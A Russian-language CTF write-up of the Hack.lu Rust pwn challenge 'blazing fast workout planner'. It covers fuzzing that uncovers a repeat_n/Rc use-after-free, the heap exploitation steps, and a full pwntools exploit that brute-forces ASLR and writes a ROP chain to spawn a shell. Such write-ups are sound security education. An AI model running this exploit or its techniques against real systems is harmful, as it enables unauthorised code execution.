



# Описание

> I wrote a new online service you can use to write down your workouts. It's super safe because
> it's written in rust, so be assured there will be no dataleaks :3

Hack.lu является моим первым CTF с рейтингом 100 на ctftime. Более того, на момент решения таска
я был абсолютно незнаком с Rust и его внутренностями, однако это не помешало мне решить задание.
В сравнении с другими заданиями данный таск можно оценить как средний по сложности, под конец он
имел 9 решений

# Решение

## Анализ

К заданию прилагается архив c исходным кодом проекта на Rust

```plain
.
├── Cargo.toml
├── Dockerfile
├── flag.txt
├── for-your-convenience
│   ├── chall
│   └── libc.so.6
├── rust-toolchain.toml
├── src
│   └── main.rs
└── ynetd
```

Обратим внимание на версию toolchain, используемого в проекте. Как известно, ночной канал порой
содержит недостаточно хорошо протестированные фичи, которые могут быть уязвимы

```toml
[toolchain]
channel = "nightly-2024-09-09"
components = [ "cargo", "rustc", "rust-std" ]
targets = [ "x86_64-unknown-linux-gnu" ]
profile = "minimal"
```

Версия libc 2.39, стандартная для Ubuntu 24.04.1

```plain
$ pwn libcdb file for-your-convenience/libc.so.6
[*] libc.so.6
    Version:     2.39
    BuildID:     6d64b17fbac799e68da7ebd9985ddf9b5cb375e6
    MD5:         60451e429e0b0d8024487977b9a0e042
    SHA1:        4e3cdad804e5cd12a3e165d41ae6b9b512e54cb1
    SHA256:      c1e50a701d3245c8c45a1ba40151efe414ac41d2c9ae604087b4875e0d85c4fb
    ...

$ libcdb-identify for-your-convenience/libc.so.6
libc6_2.39-0ubuntu8.3_amd64
```

Запустим `file` и `checksec`:

```ansi
$ file chall
chall: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=a20420f77d9cee0722f0990cd4da38b91f065afa, with debug_info, not stripped

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols       FORTIFY Fortified   Fortifiable FILE
Full RELRO      No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   1344 Symbols  No      0           8           chall

```

Бинарь собран в debug версии, запускаю его:

```plain
Welcome to your personal training helper! Here are your options:
1. : add a new exercise to your portfolio
2. : plan a new workout
3. : start a training session
4. : edit an exercise
5. : exit the app
Choose an option:
1
What's the name of your exercise?
foo
what is the description of your exercise?
bar
Exercise added!
...
Choose an option:
2
How many exercises should your workout have?
1
Enter the name of the exercise:
foo
How many times should your exercise be repeated?
2
Your workout has id 0
...
Choose an option:
3
what's the id of your workout?
0
[102, 111, 111] - [98, 97, 114]
[102, 111, 111] - [98, 97, 114]
...
Choose an option:
```

Интерфейс программы соответствует описанию задания. Реализованы 4 основные функции: создание
упражнений/тренировок, начало тренировки и изменение описания упражнений. Стоит заметить одну
странность &ndash; в опции 3 выводится строки *foo* и *bar* в отладочном формате. Если мы
обратимся к исходному коду, то обнаружим специфичный комментарий. Исходя из этого можно
предположить, что данный способ вывода в будущем будет использован с целью лика

```rust {linenos=1,linenostart=100,hl_lines="8"}
            b"3" => {
                let id = input.ask_num("what's the id of your workout? ");

                let workout = &workouts[id as usize];

                for exercise in workout.exercises.iter().cloned() {
                    for ex in exercise {
                        println!("{:?} - {:?}", ex.name, ex.description); // pls  help, this looks weird :(
                    }
                }
            }
```

В целом исходный код не вызывает вопросов. В ходе длительного анализа мне не удалось обнаружить
какие-либо уязвимости, и последней зацепкой стал единтсвенный блок `unsafe`, но согласно
[оффициальной документации](https://doc.rust-lang.org/1.82.0/std/rc/struct.Rc.html#safety-6)
метод `get_mut_unchecked` используется корректно и не может привести к потенциальным ошибкам

```rust {linenos=1,linenostart=111,hl_lines="5-9"}
            b"4" => {
                let name = input.ask("Enter the name of the exercise you want to edit: ");
                if let Some(exercise) = exercises.get_mut(name) {
                    let description = input.ask("Enter the new description: ");
                    unsafe {
                        Rc::get_mut_unchecked(exercise)
                            .description
                            .copy_from_slice(description)
                    }
                    println!("Exercise updated!");
                } else {
                    println!("No exercise found with that name.");
                }
            }
```

<details>
    <summary><strong>main.rs</strong></summary>

```rust {linenos=1}
#![feature(get_mut_unchecked)]

use std::collections::BTreeMap;
use std::io::{self, Read, Stdin, Stdout, Write};
use std::iter::RepeatN;
use std::rc::Rc;

struct InputHelper {
    stdin: Stdin,
    stdout: Stdout,
    buf: Vec<u8>,
}

impl InputHelper {
    fn with_capacity(cap: usize) -> Self {
        let stdin = io::stdin();
        let stdout = io::stdout();
        Self {
            stdin,
            stdout,
            buf: vec![0u8; cap],
        }
    }

    fn ask(&mut self, msg: &str) -> &[u8] {
        self.stdout.write(msg.as_bytes()).unwrap();
        self.stdout.write(b"\n").unwrap();
        let len = self.stdin.read(&mut self.buf).unwrap();
        &self.buf[..len].trim_ascii()
    }

    fn ask_num(&mut self, msg: &str) -> i64 {
        let buf = self.ask(msg);
        std::str::from_utf8(buf).unwrap().parse().unwrap()
    }
}

#[derive(Debug)]
struct Exercise {
    name: Vec<u8>,
    description: Vec<u8>,
}

#[derive(Debug, Clone)]
struct Workout {
    exercises: Vec<RepeatN<Rc<Exercise>>>,
}

fn main() {
    let mut exercises = BTreeMap::new();
    let mut workouts = Vec::new();

    let mut input = InputHelper::with_capacity(0x100);

    println!("Welcome to your personal training helper! Here are your options:");
    loop {
        println!("1. : add a new exercise to your portfolio");
        println!("2. : plan a new workout");
        println!("3. : start a training session");
        println!("4. : edit an exercise");
        println!("5. : exit the app");

        let line = input.ask("Choose an option: ").trim_ascii();
        match &*line {
            b"1" => {
                let name = input.ask("What's the name of your exercise? ").to_owned();

                let description = input
                    .ask("what is the description of your exercise? ")
                    .to_owned();

                let name2 = name.clone();
                let exercise: Exercise = Exercise { name, description };
                exercises.insert(name2, Rc::new(exercise));
                println!("Exercise added!");
            }
            b"2" => {
                let num_exercises = input.ask_num("How many exercises should your workout have? ");
                let mut workout = Workout {
                    exercises: Vec::new(),
                };

                for _ in 0..num_exercises {
                    let name = input.ask("Enter the name of the exercise: ");
                    if let Some(exercise) = exercises.get(name) {
                        let num_repetitions =
                            input.ask_num("How many times should your exercise be repeated? ");
                        workout.exercises.push(std::iter::repeat_n(
                            Rc::clone(exercise),
                            num_repetitions as usize,
                        ));
                    } else {
                        println!("No exercise found with that name.");
                    }
                }

                println!("Your workout has id {}", workouts.len());
                workouts.push(workout);
            }
            b"3" => {
                let id = input.ask_num("what's the id of your workout? ");

                let workout = &workouts[id as usize];

                for exercise in workout.exercises.iter().cloned() {
                    for ex in exercise {
                        println!("{:?} - {:?}", ex.name, ex.description); // pls  help, this looks weird :(
                    }
                }
            }
            b"4" => {
                let name = input.ask("Enter the name of the exercise you want to edit: ");
                if let Some(exercise) = exercises.get_mut(name) {
                    let description = input.ask("Enter the new description: ");
                    unsafe {
                        Rc::get_mut_unchecked(exercise)
                            .description
                            .copy_from_slice(description)
                    }
                    println!("Exercise updated!");
                } else {
                    println!("No exercise found with that name.");
                }
            }
            b"5" => break,
            _ => println!("That was not a valid option"),
        }
    }
}
```

</details>
<br>

Преодолев небольшой тильт, я решил действовать более серьезно

## Поиск уязвимости

### Фаззинг

Процесс фаззинга Rust с помощью AFL++ подробно описан в официальной документации
[afl.rs](https://rust-fuzz.github.io/book/afl.html). Однако чтобы сфаззить уязвимость, необходимо
доработать текущую программу и исправить некоторые ее недостатки, которые мешают нормальной
работе (когда stdin &ndash; файл):

- Постепенное считывание входного потока (по одной строке за раз)
- Завершение программы при достижении конца входного потока

```diff
diff --git a/src/main.rs.bak b/src/main.rs
index 7dca719..c673c86 100644
--- a/src/main.rs.bak
+++ b/src/main.rs
@@ -1,9 +1,13 @@
 #![feature(get_mut_unchecked)]

 use std::collections::BTreeMap;
-use std::io::{self, Read, Stdin, Stdout, Write};
+use std::io::{self, BufRead, Read, Stdin, Stdout, Write};
 use std::iter::RepeatN;
 use std::rc::Rc;
+use std::process;
+
+#[allow(unused_imports)]
+use afl::fuzz;

 struct InputHelper {
     stdin: Stdin,
@@ -18,14 +22,17 @@ impl InputHelper {
         Self {
             stdin,
             stdout,
-            buf: vec![0u8; cap],
+            buf: vec![],
         }
     }

     fn ask(&mut self, msg: &str) -> &[u8] {
         self.stdout.write(msg.as_bytes()).unwrap();
         self.stdout.write(b"\n").unwrap();
-        let len = self.stdin.read(&mut self.buf).unwrap();
+        self.buf.clear();
+        let stdin = self.stdin.lock();
+        let len = stdin.take(0x100).read_until(b'\n', &mut self.buf).unwrap();
+        if len == 0 { process::exit(0) };
         &self.buf[..len].trim_ascii()
     }
```

Компилирую программу с инструментацией и ASAN, запускаю фаззер

```sh
RUSTFLAGS='-Zsanitizer=address' cargo afl build --release
afl-fuzz -t 200 -m none -i in -o out -- ./target/release/blazing_fast_workout_planner
```



После оптимизации и быстрого анализа PoC'а, получаем уязвимость UAF при создании и последующим
запускe тренировки с упражнением, повторяющимся 0 раз

```ansi
Welcome to your personal training helper! Here are your options:
1. : add a new exercise to your portfolio
2. : plan a new workout
3. : start a training session
4. : edit an exercise
5. : exit the app
Choose an option:
1
What's the name of your exercise?
foo
what is the description of your exercise?
bar
Exercise added!
...
Choose an option:
2
How many exercises should your workout have?
1
Enter the name of the exercise:
foo
How many times should your exercise be repeated?
0
Your workout has id 0
...
Choose an option:
1
What's the name of your exercise?
foo
what is the description of your exercise?
bar
Exercise added!
...
Choose an option:
3
what's the id of your workout?
0
=================================================================
==853647==ERROR: AddressSanitizer: heap-use-after-free on address 0x506000000080 at pc 0x564068dae74b bp 0x7ffc5d114250 sp 0x7ffc5d114248
READ of size 8 at 0x506000000080 thread T0
    #0 0x564068dae74a in blazing_fast_workout_planner::main::had526049c4726fad blazing_fast_workout_planner.93f8d82921cd6586-cgu.0
    #1 0x564068d9d661 in std::sys::backtrace::__rust_begin_short_backtrace::h23cec432ea917d91 blazing_fast_workout_planner.93f8d82921cd6586-cgu.0
    #2 0x564068d9d630 in std::rt::lang_start::_$u7b$$u7b$closure$u7d$$u7d$::h148017ae0780a333 blazing_fast_workout_planner.93f8d82921cd6586-cgu.0
    #3 0x564068dce04f in std::rt::lang_start_internal::ha7766c2f55681545 (/home/lnevx/CTF/Hacklu/Pwn/BlazingFast/report/blazing-fast-workout-planner_public/target/release/blazing_fast_workout_planner+0xf404f) (BuildId: ddfae33b3fbf89fb26c8ec226fca3fbb8161a2fb)
    #4 0x564068db0119 in main (/home/lnevx/CTF/Hacklu/Pwn/BlazingFast/report/blazing-fast-workout-planner_public/target/release/blazing_fast_workout_planner+0xd6119) (BuildId: ddfae33b3fbf89fb26c8ec226fca3fbb8161a2fb)
    #5 0x7f5e14e10c89 in __libc_start_call_main csu/../sysdeps/nptl/libc_start_call_main.h:58:16
    #6 0x7f5e14e10d44 in __libc_start_main csu/../csu/libc-start.c:360:3
    #7 0x564068ce9e40 in _start (/home/lnevx/CTF/Hacklu/Pwn/BlazingFast/report/blazing-fast-workout-planner_public/target/release/blazing_fast_workout_planner+0xfe40) (BuildId: ddfae33b3fbf89fb26c8ec226fca3fbb8161a2fb)

0x506000000080 is located 0 bytes inside of 64-byte region [0x506000000080,0x5060000000c0)
freed by thread T0 here:
    #0 0x564068d71546 in free (/home/lnevx/CTF/Hacklu/Pwn/BlazingFast/report/blazing-fast-workout-planner_public/target/release/blazing_fast_workout_planner+0x97546) (BuildId: ddfae33b3fbf89fb26c8ec226fca3fbb8161a2fb)
    #1 0x564068daad52 in blazing_fast_workout_planner::main::had526049c4726fad blazing_fast_workout_planner.93f8d82921cd6586-cgu.0
    #2 0x564068d9d661 in std::sys::backtrace::__rust_begin_short_backtrace::h23cec432ea917d91 blazing_fast_workout_planner.93f8d82921cd6586-cgu.0

previously allocated by thread T0 here:
    #0 0x564068d717df in malloc (/home/lnevx/CTF/Hacklu/Pwn/BlazingFast/report/blazing-fast-workout-planner_public/target/release/blazing_fast_workout_planner+0x977df) (BuildId: ddfae33b3fbf89fb26c8ec226fca3fbb8161a2fb)
    #1 0x564068daa49a in blazing_fast_workout_planner::main::had526049c4726fad blazing_fast_workout_planner.93f8d82921cd6586-cgu.0
    #2 0x564068d9d661 in std::sys::backtrace::__rust_begin_short_backtrace::h23cec432ea917d91 blazing_fast_workout_planner.93f8d82921cd6586-cgu.0

SUMMARY: AddressSanitizer: heap-use-after-free blazing_fast_workout_planner.93f8d82921cd6586-cgu.0 in blazing_fast_workout_planner::main::had526049c4726fad
Shadow bytes around the buggy address:
  0x505ffffffe00: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x505ffffffe80: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x505fffffff00: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x505fffffff80: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
  0x506000000000: fa fa fa fa 00 00 00 00 00 00 00 fa fa fa fa fa
=>0x506000000080:[fd]fd fd fd fd fd fd fd fa fa fa fa 00 00 00 00
  0x506000000100: 00 00 00 00 fa fa fa fa 00 00 00 00 00 00 00 00
  0x506000000180: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x506000000200: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x506000000280: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
  0x506000000300: fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa fa
Shadow byte legend (one shadow byte represents 8 application bytes):
  Addressable:           00
  Partially addressable: 01 02 03 04 05 06 07
  Heap left redzone:       fa
  Freed heap region:       fd
  Stack left redzone:      f1
  Stack mid redzone:       f2
  Stack right redzone:     f3
  Stack after return:      f5
  Stack use after scope:   f8
  Global redzone:          f9
  Global init order:       f6
  Poisoned by user:        f7
  Container overflow:      fc
  Array cookie:            ac
  Intra object redzone:    bb
  ASan internal:           fe
  Left alloca redzone:     ca
  Right alloca redzone:    cb
==853647==ABORTING

```

### Разбор уязвимости

Согласно исходному коду библиотеки Rust, для `repeat_n` должен выполняться инвариант, что при
нулевом количестве повторений, хранящийся внутри объект уже может быть уничтожен, а все методы при
работе с ним это учитывают. Однако в случае использования `std::rc::Rc` возникает следующий баг:
при итерации по вектору тренировок каждый итератор `repeat_n` клонируется, клонируя при этом
внутренний объект (увеличивая счетчик ссылок) и количество повторений



Получить итератор `core::iter::repeat_n` с освобожденным объектом можно по алогритму, описанному в
PoC'е: создать новое упражнение (rc = 1), добавить его в новую тренировку с нулевым повторением (rc
не изменяется), а затем создать еще одно урпажнение с таким же названием, из-за чего его прошлая
версия будет удалена из *BTree*, а сам объект уничтожен (т.к. теперь rc = 0). Заметим, что в таком
случае увеличение счетчика ссылок на объект приводит к инкременту указателя на следующий свободный
чанк



Таким образом мы получаем примимтив, с помощью которого можно пересечь чанки на куче. Однако мы
работаем с libc версии 2.39, в которой реализована защита safe-linking, поэтому количество
инкрементов, необходимых для получения желаемого сдвига указателя, можно вычислить по специальной
формуле:

```plain
(next ^ (cur >> 12)) + x = (next + target_offset) ^ (cur >> 12)
next + (x ^ (cur >> 12)) = next + target_offset
x = target_offset ^ (cur >> 12)
```

Наиболее удобным вариантов является сдвиг на величину, кратную 0x10, так как для этого потребуется
забрутить только 4 бита ASLR

После соревнования на GitHub был найден соответствующий (уже закрытый)
[issue](https://github.com/rust-lang/rust/issues/130140) с репортом данной проблемы

## Эксплуатация

### Произвольное чтение кучи

Для лучшего понимания опишу внутреннюю структуру памяти объекта `Exercise`. Именно счетчик `strong`
увеличивается итератором `core::iter::repeat_n`, который по совместительству является указателем
`next` для чанка в tcache

```cpp
struct alloc::rc::Rc<blazing_fast_workout_planner::Exercise, alloc::alloc::Global> {
    unsigned long strong;  // strong references counter
    unsigned long weak;    // weak references counter

    // Exercise name `Vec<u8>`
    unsigned long cap;
    char* data;
    unsigned long len;

    // Exercise description `Vec<u8>`
    unsigned long cap;
    char* data;
    unsigned long len;
}
```

С помощью описанной ранее уязвимости научимся контролировать поле `data` данного объекта. Стоит
отметить, что на инстансах стоят довольно жесткие ограничения &ndash; **15 секунд** на эксплоит,
из-за чего в среднем мы можем запускать тренировки только 0x60 раз (что я заметил не сразу и что
привело к переписыванию эксплоита с нуля)

Сформируем на куче особый феншуй: 0x50 (1-й в tcache, используется в 1-й тренировке как упражнение),
0x20 (аллоцирован), 0x50 (2-й в tcache). Запустим первую тренировку 16 раз, переместив тем самым
указатель на следующий чанк на 0x50 (подразумевается, что начало кучи в 0x55xxxxxA4xxx)

Изменяя описание только что созданного упражнения, мы можем контролировать начало другого объекта,
включая наименьшие 2 байта указателя на название упражнения. Таким образом получаем примитив чтения
на куче, с помощью которого можем ликнуть адрес самой кучи и libc

```python
# Overlap a part of exercise chunk with controllable description
f1, f2 = gen_buf(0x18), gen_buf(0x18)
add(f1, cyclic(0x48))
add(b'arb_read1', cyclic(0x48))

victim1 = gen_buf()
add(victim1, cyclic(0x18))
plan({victim1: 0})

add(f1, cyclic(0x18))
add(b'arb_read1', cyclic(0x18))
add(gen_buf(0x18), cyclic(0x18))

add(victim1, b'foo')

for i in range(0x10):  # Move next pointer 0x50
    io.sendlineafter(MENU, b'3')
    io.sendlineafter(PT, b'1')

add(gen_buf(0x18), cyclic(0x18))

add(b'control1', flat({0x20: [2, 1, 8, p16(0x6ff0)]}))
plan({b'arb_read1': 1})

io.sendlineafter(MENU, b'3')  # Sanity check for ASLR guess
io.sendlineafter(PT, b'2')
```

### Примитивы arbitrary read/write

Применим ту же идею еще раз, однако теперь пересечем чанки полностью, тем самым получив примитивы
arbitrary read (опция 3) и write (опция 4). Получение оболочки тривиально: ликаем адрес стека и
записываем на него ROP цепочку

```python
# Overlap whole exercise chunk with controllable description
f3, f4 = gen_buf(0x18), gen_buf(0x18)
add(f3, cyclic(0x48))
add(b'arb_read2', cyclic(0x48))

victim2 = gen_buf()
add(victim2, cyclic(0x18))
plan({victim2: 0})

add(f3, cyclic(0x18))
add(b'arb_read2', cyclic(0x18))
add(gen_buf(0x18), cyclic(0x18))

add(victim2, b'foo')

for i in range(0x30):
    io.sendlineafter(MENU, b'3')
    io.sendline(b'3')

add(gen_buf(0x18), cyclic(0x18))

add(b'control2', flat([1, 1, 8, libc.sym['environ'], 8, 8, HEAP_BASE, 8]))
```

### Собираем вместе

<details>
  <summary><b>Эксплоит</b></summary>

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host 162.55.187.21 --port 1024 chall
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'chall')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or '162.55.187.21'
port = int(args.PORT or 1024)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.STRACE:
        with tempfile.NamedTemporaryFile(prefix='pwnlib-log-', suffix='.strace',
                                         delete=False, mode='w') as tmp:
            log.debug('Created strace log file %r\n', tmp.name)
            run_in_new_terminal(['tail', '-f', '-n', '+1', tmp.name])
            return process(['strace', '-o', tmp.name, '--'] + [exe.path] + argv, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

def num(n):
    return str(n).encode()

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
set language c
tbreak main
# br *blazing_fast_workout_planner::main+0xd8f
# br *blazing_fast_workout_planner::main+0xaf0-5
# br *blazing_fast_workout_planner::main+0xa7e
c
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    No canary found
# NX:       NX enabled
# PIE:      PIE enabled

from string import ascii_lowercase, digits
from random import choices

from pwnbrute import *

ALP = ascii_lowercase + digits
MENU = b'option: \n'
PT = b'? \n'


def gen_buf(size=0x28):
    return ''.join(choices(ALP, k=size)).encode()

def add(name, desc):
    io.sendlineafter(MENU, b'1')
    io.sendlineafter(PT, name)
    io.sendlineafter(PT, desc)

def plan(workout):
    io.sendlineafter(MENU, b'2')
    io.sendafter(PT, num(len(workout)))

    for ex, repeat in workout.items():
        io.sendafter(b': \n', ex)
        io.sendlineafter(PT, num(repeat))


libc = ELF('libc.so.6')

def pwn():
    global io
    io = start()

    # Init btree on heap
    init = gen_buf()
    add(init, cyclic(0xb8))
    plan({init: 1})

    # ======== Prepare arb-read primitive ========
    # Overlap a part of exercise chunk with controllable description
    f1, f2 = gen_buf(0x18), gen_buf(0x18)
    add(f1, cyclic(0x48))
    add(b'arb_read1', cyclic(0x48))

    victim1 = gen_buf()
    add(victim1, cyclic(0x18))
    plan({victim1: 0})

    add(f1, cyclic(0x18))
    add(b'arb_read1', cyclic(0x18))
    add(gen_buf(0x18), cyclic(0x18))

    add(victim1, b'foo')

    for i in range(0x10):  # Move next pointer 0x50
        io.sendlineafter(MENU, b'3')
        io.sendlineafter(PT, b'1')

    add(gen_buf(0x18), cyclic(0x18))

    add(b'control1', flat({0x20: [2, 1, 8, p16(0x6ff0)]}))
    plan({b'arb_read1': 1})

    io.sendlineafter(MENU, b'3')  # Sanity check ASLR guess
    io.sendlineafter(PT, b'2')

    # ======== Leak libc and heap ========
    io.sendlineafter(MENU, b'4')
    io.sendlineafter(b': \n', b'control1')
    io.sendlineafter(b': \n', flat({0x20: [2, 1, 8, p16(0x4308)]}))

    io.sendlineafter(MENU, b'3')
    io.sendlineafter(PT, b'2')

    LIBC_BASE = u64(bytes(eval(io.recvuntil(b']').decode())[:8])) - 0x2044e0
    if (LIBC_BASE >> 40) != 0x7f:
        raise Exception('Bad libc leak')

    print(hex(LIBC_BASE))
    libc.address = LIBC_BASE

    io.sendlineafter(MENU, b'4')
    io.sendlineafter(b': \n', b'control1')
    io.sendlineafter(b': \n', flat({0x20: [2, 1, 8, p16(0x4328)]}))

    io.sendlineafter(MENU, b'3')
    io.sendlineafter(PT, b'2')

    HEAP_BASE = u64(bytes(eval(io.recvuntil(b']').decode())[:8])) - 0x380
    if (HEAP_BASE >> 40) not in (0x55, 0x56):
        raise Exception('Bad heap leak')

    print(hex(HEAP_BASE))

    # ======== Arbitrary read/write primitives ========
    # Overlap whole exercise chunk with controllable description
    f3, f4 = gen_buf(0x18), gen_buf(0x18)
    add(f3, cyclic(0x48))
    add(b'arb_read2', cyclic(0x48))

    victim2 = gen_buf()
    add(victim2, cyclic(0x18))
    plan({victim2: 0})

    add(f3, cyclic(0x18))
    add(b'arb_read2', cyclic(0x18))
    add(gen_buf(0x18), cyclic(0x18))

    add(victim2, b'foo')

    for i in range(0x30):
        io.sendlineafter(MENU, b'3')
        io.sendline(b'3')

    add(gen_buf(0x18), cyclic(0x18))

    add(b'control2', flat([1, 1, 8, libc.sym['environ'], 8, 8, HEAP_BASE, 8]))

    plan({b'arb_read2': 1})
    io.sendlineafter(MENU, b'3')
    io.sendlineafter(PT, b'4')

    RETADDR = u64(bytes(eval(io.recvuntil(b']').decode())[:8])) - 0xb00
    print(hex(RETADDR))

    # ======== Write ROP on stack ========
    io.sendlineafter(MENU, b'4')
    io.sendlineafter(b': \n', b'control2')
    io.sendlineafter(b': \n', flat([1, 1, 8, HEAP_BASE + 0x3560, 8, 32, RETADDR, 32]))

    io.sendlineafter(MENU, b'4')
    io.sendlineafter(b': \n', b'arb_read2')

    POP_RDI = LIBC_BASE + 0x10f75b
    RET = LIBC_BASE + 0x2882f
    rop = [
        RET,
        POP_RDI,
        next(libc.search(b'/bin/sh\0')),
        libc.sym['system'],
    ]
    io.sendlineafter(b': \n', flat(rop))

    io.sendline(b'cat flag.txt')
    success()

    io.interactive()


if __name__ == '__main__':
    brute(pwn, workers=64)  # 8-bits heap ASLR brute
```

</details>

Подводя итог, хочется сказать, что за время решения задания я достаточно настрадался: его решение
заняло почти сутки (с учетом переписывания эксплоита) и под конец мозг уже полностью отключался,
а самой сложной частью стало отслеживание состояние кучи (и влияние стандартной библиотеки rust'а
на нее). Задание крутое, потраченного времени нисколько не жаль


